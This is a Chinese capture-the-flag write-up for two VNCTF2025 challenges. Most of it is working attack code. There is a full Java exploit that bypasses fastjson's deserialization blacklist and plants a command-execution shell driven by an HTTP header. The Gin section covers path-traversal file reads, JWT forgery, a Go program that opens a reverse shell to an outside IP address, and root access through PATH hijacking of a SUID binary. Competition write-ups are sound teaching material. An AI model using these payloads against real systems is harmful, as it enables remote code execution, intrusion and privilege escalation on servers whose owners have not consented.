# vnctf2025 javaGuide+Gin-先知社区

> **来源**: https://xz.aliyun.com/news/16999  
> **文章ID**: 16999

---

# javaGuide

简单记录一下

黑名单过滤`com.sun.org.apache.xalan.internal.xsltc.trax`、`javax.management`、`com.fasterxml.jackson`。

简单来看的话就是过滤`TemplatesImpl`、`BadAttributeValueExpException`，jackson那个应该也是ban和toString方法相关的类。依赖是`Springboot2.7`和`fastjson1.2.83`.1.2.83是很经典的版本了，一般要出fastjson高版本考点都是这个。





大概考点是fastjson原生反序列化的绕过。

fastjson高版本原生利用：<https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E4%BA%8C/#%E5%AE%8C%E6%95%B4%E5%88%A9%E7%94%A8>

主要核心内容就是利用黑名单中的引用(reference)类型来绕过对resolveClass的检查。

再利用`HotSwappableTargetSource+XString`来代替`BadAttributeValueExpException`触发toString。



大概就能写到这里，网上绕过`TemplatesImpl`的方法大致两种，一种是利用跟上面差不多，利用引用，不过有限制条件，在上面的`MyObjectInputStream`中继承了`ObjectInputStream`且重写了`resolveClass`方法，肯定是不行的。只能是第二种，基于二次反序列化绕过`SignedObject`，在`SignedObject`下的`getObject`方法有对其再次反序列的利用，且参数可控。



```
KeyPairGenerator keyPairGenerator;
keyPairGenerator = KeyPairGenerator.getInstance("DSA");
keyPairGenerator.initialize(1024);
KeyPair keyPair = keyPairGenerator.genKeyPair();
PrivateKey privateKey = keyPair.getPrivate();
Signature signingEngine = Signature.getInstance("DSA");
SignedObject signedObject = new SignedObject(hashMap1,privateKey,signingEngine);
```

这个是比较固定写法，对其进行参数初始化，在`SignedObject`构造方法第一个参数传入恶意类。

如何触发`getObject`呢，本来打算是在套一层`HotSwappableTargetSource+XString`+`JSONArray`来触发get方法，但是不知道为啥不行，而且SignedObject本地调试一直报错 `default constructor not found. class java.security.SignedObject`。难以调试，最后用`EventListenerList+UndoManager`触发。

```
JSONArray jsonArray1 = new JSONArray();
jsonArray1.add(signedObject);

EventListenerList eventListenerList = new EventListenerList();
UndoManager undoManager = new UndoManager();
Vector vector = (Vector) getFieldValue(undoManager, "edits");
vector.add(jsonArray1);
setValue(eventListenerList, "listenerList", new Object[]{InternalError.class, undoManager});
```

至此，完成整个构造链。

hashMap2.readObject->eventListenerList.readObject->UndoManager.toString->Vector.toString->JSONArray1.toString->SignedObject.getObject->hashMap1.readObject->XString.equals->JSONArray.toString->TemplatesImpl.getOutputProperties

最后exp：

```
import com.alibaba.fastjson.JSONArray;

import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import javax.xml.bind.DatatypeConverter;
import java.io.*;
import java.lang.reflect.Field;
import java.security.*;
import java.util.HashMap;
import java.util.Vector;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xpath.internal.objects.XString;
import javassist.ClassPool;
import javassist.CtClass;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.CtNewConstructor;
import org.springframework.aop.target.HotSwappableTargetSource;


public class EXP {
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] genPayload(String cmd) throws Exception{
        ClassPool classPool = ClassPool.getDefault();
        CtClass clazz = classPool.makeClass("A");
        if ((clazz.getDeclaredConstructors()).length != 0) {
            clazz.removeConstructor(clazz.getDeclaredConstructors()[0]);
        }        clazz.addConstructor(CtNewConstructor.make("public B() throws Exception {
" +
                "                org.springframework.web.context.request.RequestAttributes requestAttributes = org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();
" +
                "                javax.servlet.http.HttpServletRequest httprequest = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getRequest();
" +
                "                javax.servlet.http.HttpServletResponse httpresponse = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getResponse();
" +
                "                String[] cmd =  new String[]{"sh", "-c", httprequest.getHeader("C")};
" +
                "                byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter("\\A").next().getBytes();
" +
                "                httpresponse.getWriter().write(new String(result));
" +
                "                httpresponse.getWriter().flush();
" +
                "                httpresponse.getWriter().close();
" +
                "        }", clazz));


        // 兼容低版本jdk
        clazz.getClassFile().setMajorVersion(50);
        CtClass superClass = classPool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        return clazz.toBytecode();
//        ClassPool pool = ClassPool.getDefault();
//        CtClass clazz = pool.makeClass("a");
//        CtClass superClass = pool.get(AbstractTranslet.class.getName());
//        clazz.setSuperclass(superClass);
//        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
//        constructor.setBody("Runtime.getRuntime().exec(""+cmd+"");");
//        clazz.addConstructor(constructor);
//        clazz.getClassFile().setMajorVersion(49);
//        return clazz.toBytecode();
    }
    public static Field getField ( final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }
    public static Object getFieldValue(final Object obj, final String fieldName) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        return field.get(obj);
    }
    public static void main(String[] args) throws Exception{


        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", new byte[][]{genPayload("calc.exe")});
        setValue(templates, "_name", "1");
        setValue(templates, "_tfactory", null);


        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);

        HotSwappableTargetSource h1 = new HotSwappableTargetSource(jsonArray);
        HotSwappableTargetSource h2 = new HotSwappableTargetSource(new Object());


        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(h1,h1);
        hashMap.put(h2,h2);
        Class clazz=h2.getClass();
        Field transformerdeclaredField = clazz.getDeclaredField("target");
        transformerdeclaredField.setAccessible(true);
        transformerdeclaredField.set(h2,new XString("xxx"));

        HashMap<Object,Object> hashMap1 = new HashMap<>();
        hashMap1.put(templates,hashMap);

        KeyPairGenerator keyPairGenerator;
        keyPairGenerator = KeyPairGenerator.getInstance("DSA");
        keyPairGenerator.initialize(1024);
        KeyPair keyPair = keyPairGenerator.genKeyPair();
        PrivateKey privateKey = keyPair.getPrivate();
        Signature signingEngine = Signature.getInstance("DSA");
        SignedObject signedObject = new SignedObject(hashMap1,privateKey,signingEngine);

        JSONArray jsonArray1 = new JSONArray();
        jsonArray1.add(signedObject);

        EventListenerList eventListenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();
        Vector vector = (Vector) getFieldValue(undoManager, "edits");
        vector.add(jsonArray1);
        setValue(eventListenerList, "listenerList", new Object[]{InternalError.class, undoManager});


        HashMap hashMap2 = new HashMap();
        hashMap2.put(vector,eventListenerList);


        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hashMap2);
        objectOutputStream.close();

        byte [] bytes=byteArrayOutputStream.toByteArray();
        String base64encode= DatatypeConverter.printBase64Binary(bytes);
        BufferedWriter bufferedWriter=new BufferedWriter(new FileWriter("Ser3.bin"));
        bufferedWriter.write(base64encode);
        bufferedWriter.close();


        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
        objectInputStream.readObject();

    }
}


```

参考文章

<https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E4%BA%8C/#%E5%AE%8C%E6%95%B4%E5%88%A9%E7%94%A8>

<https://dummykitty.github.io/java/2023/07/24/Java-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E7%BB%95%E8%BF%87-resolveClass.html>

<https://xz.aliyun.com/news/16045>

<https://xz.aliyun.com/news/12052>

<https://xz.aliyun.com/news/15977>

# Gin

Gin代码审计

一眼就看到一个目录穿越下载，结合有个key.go没给出


> <http://node.vnteam.cn:47191/download?filename=./config/key.go>

读取key.go

```
package config

func Key() string {
	return "r00t32l"
}
func Year() int64 {
	return 2025
}

```

编写一个简单的脚本算出jwt key：`122r00t32l`

```
package main

import (
	"fmt"
	"math/rand"
)

func Key() string {
	return "r00t32l"
}
func Year() int64 {
	return 2025
}
func GenerateKey() string {
	rand.Seed(Year())
	randomNumber := rand.Intn(1000)
	key := fmt.Sprintf("%03d%s", randomNumber, Key())
	return key

}
func main() {
	fmt.Println(GenerateKey())

}
```

用jwt.io修改一下token



成功越权，根据源代码发现是执行go程序代码，对import语句进行过滤，但是就过滤了单行







```
package main

import (
    "fmt"
)
import (
	"os/exec"
)

func main() {
	cmd := exec.Command("/bin/bash", "-c", "bash -i >& /dev/tcp/120.26.139.208/2444 0>&1")
	out, err := cmd.CombinedOutput()
    fmt.Println(out)
    fmt.Println(err)
}
```

弹出shell后发现/flag是假的，需要进一步提权，想都不用想，ctf肯定考suid

> find / -user root -perm /4000 2>/dev/null



发现一个神奇的`/.../Cat`，想都不用想，就决定是你了，由于目标环境没有curl和nc等指令，无法把文件传出了逆向，于是用cp把文件拷到web目录下uploads，再利用前面前端的文件下载把文件载下来，等于是利用了两次这个文件下载，（文件下载全责）。

> <http://node.vnteam.cn:48095/download?filename=/.../Cat>



ida打开发现果然有问题，这个system系统函数没有使用`/bin/cat /flag`而是使用`cat /flag`，可以使用环境变量进行劫持，先写个恶意的cat 到/tmp下，在修改PATH变量为/tmp，最后执行/.../Cat即可

> echo -e '#!/bin/bash\
> /bin/bash' > /tmp/cat
>
> chmod +x /tmp/cat
>
> export PATH=/tmp:$PATH
>
> /.../Cat

当然记得提权后不能直接使用cat读取了，或者你使用/bin/cat读取，因为被劫持了。这里直接tac读取flag



> VNCTF{14f6dca4-7bf4-4779-63fd-b956eb09b9b2}
